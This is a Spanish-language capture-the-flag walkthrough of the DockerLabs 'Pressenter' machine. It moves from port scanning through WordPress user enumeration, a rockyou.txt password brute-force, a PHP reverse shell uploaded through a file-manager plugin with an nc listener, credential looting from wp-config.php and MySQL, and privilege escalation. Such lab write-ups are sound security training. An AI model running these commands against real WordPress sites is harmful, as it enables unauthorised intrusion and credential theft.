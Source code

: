 ```yaml
---
title: Pressenter - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | d1se0        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/1e7de8c9-352d-495c-a303-ac2df0163f02)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/3541d37b-ed61-4a33-8c81-007e43a2e26f)

# Exploración Web
Al acceder al puerto `80`, encontramos una página con un mensaje de inicio de reto. 
![image](https://github.com/user-attachments/assets/adcfc82b-bf2e-47ef-be51-5f096644bc53)

En el código fuente aparece un dominio oculto: `pressenter.hl`. Lo añadimos en `/etc/hosts` y accedemos nuevamente.

![image](https://github.com/user-attachments/assets/bfe294e8-3aa3-48dd-8c6e-894491656b12)

Observamos que el sitio usa WordPress, por lo que intentamos acceder a `wp-admin` y otros recursos de WordPress.

![image](https://github.com/user-attachments/assets/c01a2a13-8c20-4328-aa02-c205d2f0475c)

Usamos `WPSCAN` para enumerar los usuarios de WordPress:

```bash
wpscan --url http://pressenter.hl/ -e vp,cb,u
```

Identificamos dos usuarios: `pressi` y `hacker`.

## Fuerza bruta 

Ejecutamos fuerza bruta sobre `pressi` con el diccionario `rockyou.txt`:
```bash
wpscan --url http://pressenter.hl/ -U pressi -P /usr/share/wordlists/rockyou.txt 
```

![image](https://github.com/user-attachments/assets/d46efe6d-7489-43f4-925d-98915ec82f38)

Obtenemos la contraseña `dumbass` para `pressi` y accedemos al panel de WordPress.

![image](https://github.com/user-attachments/assets/6330cd25-7744-4289-9cbd-f88a0202a524)

# Reverse Shell

En el panel de WordPress, instalamos el plugin File Manager.

![image](https://github.com/user-attachments/assets/fea1d042-ab86-4ade-a8f1-4b831d2ba14a)

Aprovechamos la sección de subida de archivos para cargar una reverseshell en PHP. ara esto, generamos una reverseshell desde **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![image](https://github.com/user-attachments/assets/51f36ccf-e3a0-4fce-bcfb-5b3f8cba0d4e)

Iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:

```bash 
nc -lvnp 4444
```

Accedemos a la reverse shell a través del navegador:

![image](https://github.com/user-attachments/assets/ba14667e-c769-4e9c-9e3c-8ba8c46fbf3d)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/0cd9e20f-a723-41ff-8818-445f4d845005)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Intrusion con el usuario enter.

Identificamos al usuario `enter` en el sistema y exploramos el archivo `wp-config.php` en WordPress, donde encontramos las credenciales de la base de datos (`admin` / `rooteable`).

![image](https://github.com/user-attachments/assets/794d5a1f-48ea-4f17-b1b1-2c5f8eaacb71)

```bash
mysql -u admin --password=rooteable
```

Una vez en MySQL, exploramos la base de datos `wordpress` y buscamos en la tabla `wp_usernames`:

```sql
select*from wp_usernames;
```
```sql
+----+----------+-----------------+---------------------+
| id | username | password        | created_at          |
+----+----------+-----------------+---------------------+
|  1 | enter    | kernellinuxhack | 2024-08-22 13:18:04 |
+----+----------+-----------------+---------------------+
```

Esto nos proporciona la contraseña de enter: `kernellinuxhack`.

Con esto, cambiamos al usuario enter:

```bash
su enter
```

# Escalada de Privilegios 

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `cat` como `root` y `whoami` como `root` .Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/e72c8d19-7017-480f-9c15-c52d5fd1114a)

Exploramos la raíz de `enter` y encontramos `user.txt`, lo que sugiere que un archivo equivalente puede estar en el directorio `/root`. Como podemos usar `cat` como root, lo leemos:

![image](https://github.com/user-attachments/assets/7974fdd2-0ca0-4bb3-bf80-d8edb3b71112)

![image](https://github.com/user-attachments/assets/3c28faab-82ad-4216-b895-63a1ee64529d)

Alternativamente, al probar la misma contraseña de `enter` para root, conseguimos acceso root:

![image](https://github.com/user-attachments/assets/617bef1d-5194-41ab-9785-5e84b6eb268e)

